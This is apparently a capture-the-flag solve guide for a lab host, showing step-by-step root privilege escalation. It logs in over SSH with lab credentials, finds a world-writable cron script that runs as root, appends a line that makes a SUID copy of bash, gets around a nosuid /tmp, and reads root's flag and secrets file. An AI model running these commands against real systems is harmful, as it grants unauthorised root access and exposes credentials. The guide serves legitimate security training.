# 🔴 Red Team — M4: nova-scheduler Solve Guide

**Challenge:** World-Writable Cron Script → Root Privilege Escalation  
**Technique:** T1053.003 — Scheduled Task/Job: Cron  
**Entry Point:** SSH as `backupp` / `Backups3cure`

**Validated M4 address for this single-host deployment:** `10.0.2.15`

---

## Step 1 — SSH Login

First verify the local address:

```bash
ip -4 addr show
```



Connect to the validated M4 address:

```bash
ssh -o StrictHostKeyChecking=no backupp@10.0.2.15
# Password: Backups3cure
```



---

## Step 2 — Enumerate Cron Jobs

```bash
cat /etc/crontab
```



Confirm the target entry directly:

```bash
grep 'maintenance.sh' /etc/crontab
```



```bash
ls -la /etc/cron* /var/spool/cron/ 2>/dev/null
```



Output:
```
* * * * * root /opt/scripts/maintenance.sh
```

---

## Step 3 — Check File Permissions

```bash
ls -la /opt/scripts/maintenance.sh
```



Output:
```
-rwxrwxrwx 1 root root ... /opt/scripts/maintenance.sh
```

The file is **world-writable** (777) but executed as root every minute!

---

## Step 4 — Exploit: SUID Bash Copy

Append a payload to copy bash with SUID bit:

```bash
echo 'cp /bin/bash /tmp/.suid_bash; chmod +s /tmp/.suid_bash' >> /opt/scripts/maintenance.sh
```



---

## Step 5 — Wait for Cron (up to 60 seconds)

```bash
for i in 1 2 3; do ls -la /tmp/.suid_bash; sleep 1; done
# Wait until you see -rwsr-xr-x (SUID set by root cron)
```



On this Kali host, `/tmp` is mounted with `nosuid`, so the file mode is visible but executing it does not produce an effective root shell. Verify the mount and use `/var/tmp`, which is on a suid-enabled filesystem:

```bash
findmnt -no TARGET,OPTIONS -T /var/tmp
```



```bash
echo 'cp /bin/bash /var/tmp/.suid_bash; chmod +s /var/tmp/.suid_bash' >> /opt/scripts/maintenance.sh
```



```bash
for i in 1 2 3; do ls -la /var/tmp/.suid_bash; sleep 1; done
```



---

## Step 6 — Get Root Shell

```bash
/var/tmp/.suid_bash -p  # -p flag preserves effective UID (root)
```



```bash
whoami
```



```bash
id
```



The shell's real UID remains `backupp`, but `whoami` reports `root` and `id` shows `euid=0`, which confirms the effective root shell.

---

## Step 7 — Read Flag and Credentials

```bash
cat /root/flag4.txt
```



```bash
cat /root/secrets.txt
```



---

## Flag Location
`/root/flag4.txt`
